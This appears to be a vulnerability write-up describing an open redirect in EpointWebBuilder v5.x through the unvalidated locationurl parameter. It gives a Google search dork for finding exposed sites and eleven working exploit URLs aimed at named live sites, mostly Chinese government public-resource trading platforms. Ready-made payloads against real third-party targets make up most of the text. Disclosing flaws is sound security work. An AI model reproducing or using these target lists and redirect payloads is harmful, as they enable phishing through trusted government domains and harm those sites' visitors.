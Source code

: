 # EpointWebBuilder_v5.x_VULN


## Step
Tests revealed the following links in the site:
http://xxx.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://xxx.cn&infoid=4a1ba0e4-95b3-4e58-9b8c-7530247b82a4
The locationurl specifies the location where the visitor will be redirected, and the infoid parameter is directly related to the path of the redirected resource.
However, the infoid and locationurl parameters have no validation beyond this.
Therefore, make the following link: 
http://xxx.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://google.com/%23&infoid=4a1ba0e4-95b3-4e58-9b8c-7530247b82a4 , 
where the infoid parameter is directly related to the path of the redirected resource, which must be an existing UUID. The system will redirect the visitor to any location according to the locationurl parameter, which is google.com in the above example.
302=>
https://www.google.com/#/jyxx/001006/001006001/20230825/4a1ba0e4-95b3-4e58-9b8c-7530247b82a4.html
## Example
google query: 
`inurl:“pageRedirectAction”`

1.	江苏省公共资源交易平台（EpointWebBuilder V5.1.0-sp1）
http://ggzy.taizhou.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=4a1ba0e4-95b3-4e58-9b8c-7530247b82a4
2.	龙岩公共资源交易中心
https://ggzy.longyan.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=451f2a3e-2f0c-4271-bb30-38fe6a840441
3.	鞍钢智慧招投标平台
http://bid.ansteel.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=b46c9bfc-f2b4-4ea0-aac3-41d94aedf5bf
4.	喀什地区公共资源交易网
http://36.189.231.22/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=32c96e01-46e9-46e3-b8ae-859a4ce0971a
5.	和田公共资源交易网（EpointWebBuilder V5.4.1）
http://36.107.230.199:8081/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=18366a85-4578-4157-9a8f-7620e8467413
6.	莆田市人民政务
http://ggzyjy.xzfwzx.putian.gov.cn:8808/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=1ac797e4-25b7-4c08-8b69-a8113b1e6de0
7.	博州公共资源交易网（EpointWebBuilder V5.2.1-sp1）
http://xzfw.xjboz.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=279f97b6-3d3f-465a-806c-8904c26ad84c
8.	枣庄市公共资源交易网（EpointWebBuilder V5.4.1）
http://ggzy.zaozhuang.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=e37ce09f-420d-42b7-9079-302dc9b34aad
9.	芜湖市公共资源交易中心（EpointWebBuilder V5.4.2）
http://whsggzy.wuhu.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=38e7ee57-5a22-4c89-ba59-082f42991f01
10.	博州公共资源交易网（EpointWebBuilder V5.2.1-sp1）
http://xzfw.xjboz.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=5bd400a1-08fd-4230-a8c0-11e9ff084cd9
11. 克州公共资源交易网
http://kzggzyjy.com.cn:8024/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=39f1209f-a5ee-454a-8434-9ea8d7e12db3
